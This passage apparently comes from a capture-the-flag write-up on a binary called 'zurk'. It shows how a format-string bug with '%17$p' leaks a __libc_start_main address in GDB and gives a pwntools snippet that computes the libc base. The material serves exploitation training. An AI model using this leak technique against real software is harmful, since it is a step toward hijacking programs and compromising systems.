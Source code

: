 `printf` is looking for arguments in `rsi`, `rdx`, `rcx`, `r8`, `r9`, stack.

This is all pretty academic.  All we really need to know is _our content on the stack starts at position 6_.  And, we can go down as far as we like.  To get around the limits of the `fgets` size of 50 chars use `%17$p` to get to the 17th value.

Enter `c` to continue `zurk` then enter `%17$p`, then `c` to print the output:

```
gef➤  c
Continuing.
0x7ffff7a2d830 is not a valid instruction.
```

This time we only got one value, the 17th value.  This looks interesting (if the 17th value does NOT look that interesting to you, check 18, 19, 20, ...), its not around the stack and the address looks close to the `printf` output above.  This is code.  Disassemble it:


```
gef➤  disas 0x7ffff7a2d830
Dump of assembler code for function __libc_start_main:
   0x00007ffff7a2d740 <+0>:	push   r14
   0x00007ffff7a2d742 <+2>:	push   r13
   0x00007ffff7a2d744 <+4>:	push   r12
   0x00007ffff7a2d746 <+6>:	push   rbp
   
...   
   
   0x00007ffff7a2d822 <+226>:	mov    edi,DWORD PTR [rsp+0x14]
   0x00007ffff7a2d826 <+230>:	mov    rdx,QWORD PTR [rax]
   0x00007ffff7a2d829 <+233>:	mov    rax,QWORD PTR [rsp+0x18]
   0x00007ffff7a2d82e <+238>:	call   rax
   0x00007ffff7a2d830 <+240>:	mov    edi,eax
  
...  
   
   0x00007ffff7a2d8fc <+444>:	mov    r13,QWORD PTR [r13+0x40]
   0x00007ffff7a2d900 <+448>:	cmp    r14d,r12d
   0x00007ffff7a2d903 <+451>:	jne    0x7ffff7a2d8df <__libc_start_main+415>
   0x00007ffff7a2d905 <+453>:	jmp    0x7ffff7a2d7d6 <__libc_start_main+150>
End of assembler dump.
```

We just found `__libc_start_main`, and our leaked address is `+240` bytes down.

Using [pwntools](https://docs.pwntools.com/en/stable/) it will be trivial to find the base of `libc`:

```
from pwn import *

libc = ELF('libc-2.23.so')

p = process('./zurk')
p.recvuntil('to do?')
p.sendline('%17$p')
__libc_start_main = int(p.recvuntil('to do?').split()[0],0) - 240
__libc_start_main_offset = libc.symbols['__libc_start_main']
base = __libc_start_main - __libc_start_main_offset
```
